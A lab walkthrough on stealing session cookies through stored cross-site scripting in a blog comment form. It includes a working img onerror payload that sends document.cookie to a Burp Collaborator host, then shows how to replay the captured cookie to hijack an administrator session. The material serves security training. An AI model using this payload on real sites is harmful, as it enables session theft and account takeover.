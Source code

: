 ## 🍪 Using Cross-Site Scripting for Cookie Theft

Cookie theft is a traditional method of exploiting XSS. Most web applications use cookies to manage sessions. You can leverage cross-site scripting vulnerabilities to send the victim's cookies to your domain and then manually inject these cookies into your browser to impersonate the victim.

### Practical Limitations:

1. The victim might not be logged in.
2. Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
3. Sessions might be locked by additional factors, such as the user's IP address.
4. The session might expire before you manage to intercept it.

### 🔬 Example Lab: Exploiting a Stored XSS Vulnerability
This lab contains a stored XSS vulnerability in the blog comment feature. A simulated victim user views all comments after they are posted. To solve this lab, exploit the vulnerability to extract the victim's session cookie and use it to impersonate the victim.

### Steps:

1. Navigate to any post and locate the comment form at the bottom of the page:

   ![image](https://github.com/user-attachments/assets/6729768d-caae-4d96-8350-4b9f93340407)![image](https://github.com/user-attachments/assets/d9982d81-88db-4261-b408-f54eaf6bd9a5)

2. Enter random values in the form and add the following payload to the comment:

   ```html
   <img src=x onerror=this.src='http://burp.collaborator.url/?c='+document.cookie>
   ```

3. Go to the Collaborator tab and click "Poll now." You should see an HTTP interaction. If nothing appears, wait a few seconds and try again.

   ![image](https://github.com/user-attachments/assets/42799ca7-4967-4a3c-9830-6d3c89f19847)

4. Note the victim's cookie value in the body of the POST request:

   ![image](https://github.com/user-attachments/assets/f6106c1e-e2d0-4903-ab3d-e04cd09240ce)

5. Reload the blog's main page using Burp Proxy or Burp Repeater. Replace your own session cookie with the one captured via Burp Collaborator. Submit a request to solve the lab. To prove you have successfully hijacked the administrator user's session, use the same cookie in a request to `/my-account` to load the administrator's account page.
